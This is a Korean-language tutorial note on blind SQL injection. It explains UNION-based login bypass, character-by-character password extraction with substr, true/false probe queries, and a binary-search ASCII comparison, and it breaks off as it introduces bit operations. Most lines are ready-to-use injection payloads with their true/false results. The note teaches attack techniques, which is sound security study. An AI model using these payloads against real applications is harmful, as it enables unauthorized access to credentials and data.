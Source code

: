
# Application Logic(Blind  SQL Injection)
### UNION을 사용한 공격
UNION 절을 사용하면 두 개의 SELECT 구문의 결과를 반환하므로 참을 반환할 수 있음

	/?username=' union select 'admin' -- -
	==> True

### substring과 length을 사용한 공격
원하는 데이터의 길이를 구하고, 비교를 통해 참거짓 반환

	/?username=' union select if(substr(password,1,1)='B', 'admin', 'not admin') from users where username='admin' -- -
	==> False
	/?username=' union select if(substr(password,1,1)='P', 'admin', 'not admin') from users where username='admin' -- -
	==> True
	/?username=' union select if(substr(password,2,1)='a', 'admin', 'not admin') from users where username='admin' -- -
	==> True

### 참 거짓 판단 쿼리
대부분의 경우에 어플리케이션 화면에서 참 거짓을 판별할 수 있는 쿼리이다.

	'or 1=1 limit 0,1;--
	'or 1=2 limit 0,1;--

사실 limit문은 없어도 되지만, 간혹 select조회 결과값이 하나인지를 필터링하기도 한다.



# 더 효율적인 공격 쿼리
### Binary Search(이진탐색)
아스키코드에서 출력 가능한 문자의 범위는 32~126
패스워드의 첫 번째 바이트가 79보다 큰 값인지 확인

```sql
mysql> select * from users where username='admin' and ascii(substr(password, 1, 1))>79;
+----------+----------+
| username | password |
+----------+----------+
| admin    | P@ssword |
+----------+----------+
1 row in set (0.00 sec)
```

### Bit 연산
ASCII는 0부터 127 범위의 문자를 표현할 수 있고,
이는 곧 7 개의 비트를 통해 하나의 문자를 나타낼 수 있다는 것을 의미
MySQL에서는 숫자를 비트 형태로 변환하는 bin이라는 함수를 제공
